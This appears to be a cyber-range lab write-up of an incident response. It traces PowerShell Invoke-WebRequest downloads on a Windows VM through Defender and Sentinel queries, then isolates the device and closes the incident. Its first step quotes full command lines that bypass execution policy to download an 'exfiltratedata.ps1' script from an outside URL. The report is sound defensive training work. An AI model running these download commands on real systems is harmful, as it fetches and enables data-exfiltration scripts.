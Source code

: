 <img width="600" src="https://github.com/user-attachments/assets/3139ed02-bf2c-4d30-973e-12dc1063fcba" alt="Incident Response Lifecycle"/>

# Incident Response Report: PowerShell Suspicious Web Request

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- Microsoft Sentinel

##  Scenario

Management has raised concerns about potential attempts to download malicious tools or payloads directly within our network. Logs for one of the flagged virtual machines displays incidents where PowerShell launched. Microsoft Defender for Endpoint also flagged repeated download attempts from unfamiliar scripts, which also look suspicious. At this stage, it is unclear whether any of the scripts have been successfully downloaded or executed, prompting immediate investigation. The goal is to detect any use of the "Invoke-WebRequest" command - a method that can potentially download or execute external scripts while bypassing detection mechanisms - and to analyze any downloaded scripts or files to mitigate risks of unauthorized access. 

### High-Level Incident Response Plan

- **Check `DeviceProcessEvents`** for any PowerShell executions involving the `Invoke-WebRequest`command and investigate any suspicious download activity.
- **Check `DeviceProcessEvents`** for any successful execution of downloaded scripts to assess potential impact.
- **If applicable, `isolate affected devices`, `block access to malicious domains`, `run an antimalware scan`, and `implement restrictions on PowerShell usage`** to prevent unauthorized script execution.

---

## Steps Taken

### 1. Searched the `DeviceProcessEvents` Table

Searched for instances within the last 24 hours where PowerShell was downloaded using the `Invoke-WebRequest` command for Device: "windows-target-1". Identified 24 such incidents, where the following commands were executed: 

a)InitiatingProcessCommandLine
            
        "cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1


b)ProcessCommandLine
            
        powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1


The suspicious web request was triggered on 1 device: "windows-target-1 by 1 user, but downloaded 4 different scripts with 4 different commands


<ul>
<li>eicar.ps1</li>

<li>portscan.ps1</li>

<li>pwncrypt.ps1</li>

<li>exfiltratedata.ps1</li>
</ul>


**Query used to locate events:**

![image](https://github.com/user-attachments/assets/89c2a2cc-e446-42a5-bc7c-446429ad29ed)


<p>
<img src="https://github.com/user-attachments/assets/f70f72a2-79eb-450a-bb2c-4efcc849507d"  alt="KQL Query Results"/> &emsp; &emsp;
<img src="https://github.com/user-attachments/assets/74e652dd-2033-44ea-aacb-82e787cc2cf6"   alt="KQL Query Results"/>
</p>


---

### 2. Searched the `DeviceProcessEvents` Table a Second Time

Searched for instances where the following scripts: `eicar.ps1`, `portscan.ps1`, `pwncrypt.ps1`, `exfiltratedata.ps1` were succesfullly executed. It was later discovered that all 4 scripts were indded.

**Query used to locate events:**

![image](https://github.com/user-attachments/assets/9347c43d-f38d-4873-8e55-e6c4062ec09a)

![image](https://github.com/user-attachments/assets/1eb274cc-2d4c-43a6-a4ca-417e7fb7ca98)
![image](https://github.com/user-attachments/assets/724222a9-6361-4704-aa8f-304ee8e89d6a)

Summarized by Count: 

![image](https://github.com/user-attachments/assets/8919ead5-4916-4dbc-940f-504f3ceb39bc)


---

### 3. Isolated the affected device in Microsoft Defender

Device: `windows-target-1` was isolated in Microsoft Defender for Endpoint, and an antimalware scan was run to ensure no malware was present.

**Ex. 1: Device: windows-target-1:**
![image](https://github.com/user-attachments/assets/cc6460f8-c4bb-4575-86ba-b26be8c531b9)


---

### 4. Enforced Cybersecurity Awareness Training

Enrolled affected user in additional cybersecurity awareness training and upgraded organization-wide security awareness program (KnowBe4) to a more robust package with increased training frequency.

Implemented a policy change that limited/restricted PowerShell usage to authorized personnel only.

Enhanced endpoint monitoring for script execution activities.

---

### 5. Restored impacted virtual machine

Reviewed and completed write-up for incident resolution. Finalized reporting and closed out the incident in Microsoft Sentinel as a true positive.

![image](https://github.com/user-attachments/assets/5e6c7a40-2dba-4bae-b12c-8a943c56c7b7)









